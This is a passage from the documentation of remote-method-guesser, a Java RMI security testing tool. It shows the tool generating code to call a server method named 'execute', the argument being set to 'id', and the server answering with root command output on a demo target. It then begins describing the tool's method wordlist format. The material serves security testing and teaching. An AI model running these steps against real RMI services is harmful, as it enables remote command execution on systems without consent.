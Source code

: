 As the output above suggests, *remote-method-guesser* created two files for the *remote method*:

1. ``IPlainServer.java``: Contains the interface code that is required for the *RMI call*.
2. ``execute.java``: Contains the *Java code* that is used for the actual method invocation.

As *remote-method-guesser* cannot know which arguments you want to use for the method call, these are left as ``TODOs`` within the
generated code:

```java
[qtc@kali ~]$ grep -A 5 "TODO" /home/qtc/rmg-samples/plain-server/execute/execute.java
            java.lang.String argument0 = TODO;

            System.out.print("[+] Invoking method execute... ");
            java.lang.String response = stub.execute(argument0);
            System.out.println("done!");
```

For this demonstration, ``TODO`` is replaced by the String ``id``, as the method name ``execute`` could mean that the argument is used for
command execution. After making this substitution and compiling the two generated files, the *remote method* can be invoked:

```console
[qtc@kali ~]$ cd /home/qtc/rmg-samples/plain-server/
[qtc@kali plain-server]$ javac IPlainServer.java -d .
[qtc@kali plain-server]$ sed -i -e 's/TODO/"id"/' execute/execute.java 
[qtc@kali plain-server]$ javac execute/execute.java -d .
[qtc@kali plain-server]$ java execute
[+] Connecting to registry on 172.18.0.2:1090... done!
[+] Starting lookup on plain-server... 
[+] RMI object tries to connect to different remote host: iinsecure.dev
[+]	Redirecting the connection back to 172.18.0.2... 
[+]	This is done for all further requests. This message is not shown again. 
[+] Invoking method execute... done!
[+] The servers response is: uid=0(root) gid=0(root) groups=0(root)
```

Other benefits of samples generated by *rmg* are some nice *rmg* features that are already build inside. This includes full *TLS* support, for remote objects
and the *RMI registry*, as well as automatic target redirection.


### Wordlists Files

-----

*remote-method-guesser* guesses *remote methods* based on a wordlist approach. Corresponding wordlists are shipped within this repository and are contained
within the [wordlist directory](./wordlists). Wordlists are stored using an optimized  *rmg-internal* format:

```
<RETURN_VALUE> <METHODNAME>(<ARGUMENTS>); <METHOD_HASH>; <IS_PRIMITIVE>; <IS_VOID>;
```

The first three placeholders should be self explanatory and match the format of a common *Java method signature*. The last three placeholders
describe the following properties of a function:
